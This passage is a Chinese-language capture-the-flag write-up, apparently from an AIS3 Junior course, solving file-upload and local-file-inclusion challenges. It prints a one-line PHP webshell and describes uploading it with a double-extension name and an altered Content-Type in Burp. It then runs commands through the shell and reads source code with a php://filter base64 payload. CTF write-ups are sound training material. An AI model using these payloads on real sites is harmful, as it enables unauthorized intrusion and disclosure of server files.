 將url改成 http://ctfd-ais3.crazyfirelee.tw:9011/uploads/a764c_108.160.138.201.php
利用剛才上傳的webshell 
將命令打在url後面`?cmd=ls ../`
結果如下圖*找到了FLAG*
![image](https://hackmd.io/_uploads/rye_PS3q0.png)

將命令改成`?cmd=cat ../FLAG`
![image](https://hackmd.io/_uploads/r13xKrn90.png)
>AIS3_Junior{FirstWEBSHELLXDDD}


### FIL02
先寫一個webshell
```php
<?php system($_GET['cmd']);?>
```
將檔名改成 `(隨你喜歡).jpg.php `
上傳時用brup將他攔下來
![image](https://hackmd.io/_uploads/Bkj2HBn5C.png)
將`Contect -Type `後面改成 `image/jpg`
`forward`的結果如圖
![image](https://hackmd.io/_uploads/B1IyESn50.png)

將url改成 http://ctfd-ais3.crazyfirelee.tw:9012/uploads/2a54e_108.160.138.201.php
利用剛才上傳的webshell 
將命令打在url後面`?cmd=ls ../`
結果如下圖*找到了FLAG*
![image](https://hackmd.io/_uploads/rye_PS3q0.png)

將命令改成`?cmd=cat ../FLAG`
![image](https://hackmd.io/_uploads/ryF6DH25A.png)
>AIS3_Junior{BabyUploadBypass}

## 03 - Local File Inclusion
### LFI01
照片很可疑
將照片url複製 http://ctfd-ais3.crazyfirelee.tw:9021/include.php?GetType=file_get_contents&file=static/bitcoinCat.jpg

利用上課所教的`php://filter/read=convert.base64-encode/resource=index.php`

先把`static/bitcoinCat.jpg`給刪掉

把`php://filter/read=convert.base64-encode/resource=index.php`加進去url中 
改成 http://ctfd-ais3.crazyfirelee.tw:9021/include.php?GetType=file_get_contents&file=php://filter/read=convert.base64-encode/resource=index.php

獲得一段base64加密過的東西![image](https://hackmd.io/_uploads/Bk9U6rn5A.png)

全選複製後去先上平台解密
![image](https://hackmd.io/_uploads/Hkv9aBnqC.png)
